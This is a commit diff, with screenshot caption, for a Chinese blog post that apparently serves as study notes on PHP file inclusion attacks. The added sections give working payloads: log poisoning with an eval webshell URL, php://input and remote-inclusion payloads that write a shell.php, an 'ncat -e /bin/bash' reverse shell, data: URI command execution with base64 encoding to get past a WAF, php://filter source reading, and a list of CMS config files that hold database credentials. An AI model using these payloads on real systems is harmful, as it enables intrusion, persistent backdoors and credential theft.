

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-12-02-fileInclude.md, in a window 1280 px wide and 1400 px high, scrolled down 4115 px. Shown: the whole window at 92% size, without its empty margins (233-1229 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 4561 px from its top, so only the background shows below that; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
update fileInclude.md

````diff
--- a/_posts/2020-12-02-fileInclude.md
+++ b/_posts/2020-12-02-fileInclude.md
@@ -113,8 +113,8 @@ include($test);
 
 #### 2. 本地包含漏洞注意事项
 
-	*
-相对路径：../../../../etc/password
+- 相对路径：../../../../etc/password
+
 *
 %00截断包含（PHP<5.3.4）（magic_quotes_gpc=off才可以，否则%00会被转义）
 
@@ -127,7 +127,8 @@ echo $_GGET['x'].".php";
 
 
 
-#### 0x07 利用技巧
+## 0x07 利用技巧
+
 首先上传图片马，马包含以下代码：
 
 ```php
@@ -169,3 +170,153 @@ echo $_GGET['x'].".php";
 - /proc/self/fd/fd[0-9]*   （文件标识符）
 - /proc/mounts
 - /proc/config.gz
+
+
+
+## 0x09 包含日志
+
+把日志文件包含进来，主要是想找到日志的路径。
+
+- 文件包含漏洞读取apache配置文件
+  - index.php?page=/etc/init.d/httpd
+  - index.php?page=/etc/httpd/conf/httpd.conf
+- 默认位置：/var/log/httpd/access_log
+
+找到日志路径之后，可以利用其记录访问链接信息，我们构造一个访问请求就会被记录下来，那就可以构造一个带有webshell的链接，然后文件包含日志来getshell。
+
+日志会记录客户端请求及服务器响应的信息，访问http://www.com/\<?php phpinfo(); ?\>时，\<?php phpinfo();?\>也会被记录在日志里，也可以插入到User-Agent中。注意可以用Burpsuite发送来绕过URL编码。
+
+示例：制作错误，写入一句话
+
+```
+http://127.0.0.1/ekucms/index.php?s=my/show/id/{~eval($_POST[x])}
+```
+
+菜刀连接即可。
+
+
+
+## 0x0a 读PHP文件
+
+直接包含php文件时会被解析，不能看到源码，可以用封装协议读取：
+
+```
+?page=php://filter/read=convert.base64-encode/resource=config.php
+```
+
+访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码。
+
+
+
+## 0x0b PHP封装协议
+
+当allow_url_include=On时，若执行http://www.com/index.php?page=php://input ，并且提交数据
+
+```
+<?php fputs(fopen("shell.php","w"),"<?php eval($_POST[x])?>")?>
+```
+
+结果将在index.php所在路径下生成一句话文件shell.php
+
+
+
+## 0x0c 远程包含
+
+远程的文件名不能为php可解析的扩展名，allow_url_fopen和allow_url_include为On是必须的。
+
+若在a.txt写入
+
+```
+<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST[x]);?>")?>
+```
+
+
+
+## 0x0d php输入输出流
+
+PHP提供了一些杂项输入/输出（IO）流，允许访问PHP的输入输出流、标准输入输出和错误描述符，内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。
+
+#### 1. php://input简介
+
+php://input是个可以访问请求的原始数据的只读流。POST请求的情况下，最好使用php://input来代替$HTTP_RAW_POST_DATA，因为它不依赖与特定的php.ini指令。
+
+而且这样的情况下$HTTP_RAW_POST_DATA默认没有填充，比激活always_populate_raw_post_data潜在需要更少的内存。
+
+enctype="multipart/form-data"的时候php://input是无效的。
+
+#### 2. 利用php://input 插入一句话木马
+
+```php
+<?php
+@eval(file_get_contents('php://input'));
+?>
+```
+
+php://input是用来接收post数据，在post中插入数据：
+
+```
+system('ncat -e /bin/bash localhost 1234');
+```
+
+测试了一下nc反弹shell的利用。
+
+#### 3. php://input将文件包含漏洞变成代码执行漏洞
+
+文件中存在包含漏洞的代码：
+
+```php
+<?php @include($_GET['file'])?>
+```
+
+使用php://input，将执行代码通过hackbar在POST data中提交，即构造请求，请求链接如下：
+
+```
+http://127.0.0.1/index.php?file=php://input
+```
+
+然后用hackbar或其他工具在POST data处写入：
+
+```
+<?php system('ifconfig');?>
+```
+
+#### 4. data URI schema
+
+将文件包含漏洞变成代码执行漏洞并绕过360网站卫士的WAF。
+
+很多时候我们是急需读取PHP格式的配置文件，例如：
+
+- dedecms数据库配置文件data/common.inc.php
+- discuz全局配置文件config/config_global.php
+- phpcms配置文件caches/configs/database.php
+- phpwind配置文件conf/database.php
+- phpwind配置文件conf/database.php
+- wordpress配置文件wp-config.php
+
+举个例子，读取指定文件FileInclude.php的代码：
+
+```
+http://127.0.0.1/index.php?file=data:text/plain,<?php system('cat /var/www/FileInclude.php')?>
+```
+
+注意，我们看到转化后的GET请求的参数中包含\<?的标记，在遇到有些WAF，包括云WAF（例如360网站卫士），就会被视为攻击代码而拦截下来，所以一般会加base64编码。
+
+```
+# base64编码后传输
+data:text/plain;base64,[攻击代码的base64编码]
+
+# 直接传输
+data:text/plain,[攻击代码]
+```
+
+#### 5. php://filter
+
+php://filter可以读取php文件的源码内容。
+
+用法：
+
+```
+php://filter/read=convert.base64-encode/resource=[文件路径]
+```
+
+将得到的base64的数据解码得到php文件内容。
````
